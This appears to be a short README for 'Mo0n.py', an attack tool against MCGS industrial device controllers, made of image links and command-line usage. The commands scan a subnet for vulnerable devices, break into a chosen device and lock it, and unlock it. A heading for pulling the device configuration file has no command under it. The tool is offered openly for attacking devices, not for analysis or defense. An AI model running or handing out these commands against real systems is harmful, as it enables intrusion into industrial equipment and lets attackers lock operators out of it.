






  

 
 
  
 
 

 <table>
  <tr>
      <th>Function</th>
  </tr>
  <tr>
    <th>Lock Devic MCGS</th>
</tr>

 </table>

# Scan devices with vulnerabilities

`#python3 Mo0n.py -scan 192.168.0.0/24`

# Intrusion and locking

`#python3 Mo0n.py -rhost 192.168.0.102 -lock`

# Unlock

`#python3 Mo0n.py -rhost 192.168.0.102 -unlock`

# Get device configuration file

